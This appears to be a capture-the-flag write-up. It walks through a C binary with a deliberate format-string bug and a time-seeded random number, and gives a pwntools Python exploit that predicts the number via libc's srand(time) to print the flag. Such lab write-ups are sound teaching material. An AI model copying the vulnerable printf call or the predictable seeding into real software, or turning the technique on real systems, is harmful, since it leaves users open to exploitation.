 Before we start you need to download the binary : [Binary](./vuln).

Let's start by running the binary and see what's in there : 

````console 
┌──(ironbyte㉿IronByte)-[/mnt/c/Users/IR0NYTE/Desktop/ctf/distrib]
└─$ ./vuln
Welcome to SEETF!
Please enter your name to register:
IronByte
Welcome: IronByte

Let's get to know each other!
1. Do you know me?
2. Do I know you?
1
Guess my favourite number!
500
Not even close!
Let's get to know each other!
1. Do you know me?
2. Do I know you?
2
Whats your favourite format of CTFs?
String
Same! I love
String
too!
````
We can see him asking us for a name, then he is giving us some options to choose from, 1st option was to guess his favourite number, 2nd was to input something then output it back to you.
Let's take a look at the code: 

````C
#include <stdio.h>
#include <stdlib.h>
#include <time.h>

char name[16];
char echo[100];
int number;
int guess;
int set = 0;
char format[64] = {0};


void guess_me(int fav_num){
    printf("Guess my favourite number!\n");
    scanf("%d", &guess);
    if (guess == fav_num){
        printf("Yes! You know me so well!\n");
	    system("cat flag");
        exit(0);
    }
    else {
        printf("Not even close!\n");
    }
       
}


int main() {

mat1:
    printf("Welcome to SEETF!\n");
    printf("Please enter your name to register: %s\n", name);
    read(0, name, 16);

    printf("Welcome: %s\n", name);

    while(1) {
mat2:
        printf("Let's get to know each other!\n");
        printf("1. Do you know me?\n");
        printf("2. Do I know you?\n");

mat3:
        scanf("%d", &number);


        switch (number)
        {
            case 1:
                srand(time(NULL));
                int fav_num = rand() % 1000000;
		        set += 1;
mat4:
                guess_me(fav_num);
                break;

            case 2:
mat5:
                printf("Whats your favourite format of CTFs?\n");
		        read(0, format, 64);
                printf("Same! I love \n");
		        printf(format);
                printf("too!\n");
                break;

            default:
                printf("I print instructions 4 what\n");
		if (set == 1)
mat6:
                    goto mat1;
		else if (set == 2)
		    goto mat2;
		else if (set == 3)
mat7:
                    goto mat3;
		else if (set == 4)
                    goto mat4;
		else if (set == 5)
                    goto mat5;
		else if (set == 6)
                    goto mat6;
		else if (set == 7)
                    goto mat7;
                break;
        }
    }
    return 0;
}
````

The first thing to notice was that there was a guess_me function out of the main function that asks for a guess number, then try to compare it with another number 'fav_num' that was randomly generated then if your guess is right it will cat for you the flag. Anyway, looking more at the code made me notice another thing which is a critical vulnerability in the code. It was the **'printf (format)'**, actually that print is vulnerable to *the string format vulnerability* because we are not specifying the format of each variable passed through the **print ()** function, which can let you read/write data from the stack so the first thing that come to my mind was to try to overwrite the value of that **favorite_number** into a number that I know then try to call the *guess_me* function then I noticed that the value of favorite number will be always randomized. Anyway, that idea was not good enough to solve the puzzle,  I took a look at the option number 1 and it comes to me the idea of just handling the 2 lines **srand (time (NULL)); int fav_num = Rand () % 1000000;** by myself, by importing the libc library and calling the *time* and the *srand* functions from there to just give me the same random value that the *srand* is given, after that just passing that value to the *guess_me* function to get the flag. That idea was much easier to implement than using the format string vulnerability for me.
Here's the exploit that i made :
````python
from pwn import *
from time import time
from ctypes import CDLL

# Target = remote('challenge.404ctf.fr', 31720)
target = process('./distrib/vuln') #You have got to change your own path of the binary.
# target = remote('')
# Including the libc library.
libc = CDLL('/lib/x86_64-linux-gnu/libc.so.6')

# Getting to the input of the first option.
screen = target.recvuntil(b"register:")
target.sendline(b"Ironbyte")
screen = target.recvuntil(b"you?")
target.sendline(b"1")
screen = target.recvline()

# Passing down the current time and generating the Right Number.
libc.srand(int(time()))
generated_Number = libc.rand() % 1000000  
target.sendline(str(generated_Number).encode()) 

# Gdb.attach(target, gdbscript='b* 00400668')

target.interactive()
target.close()
```` 


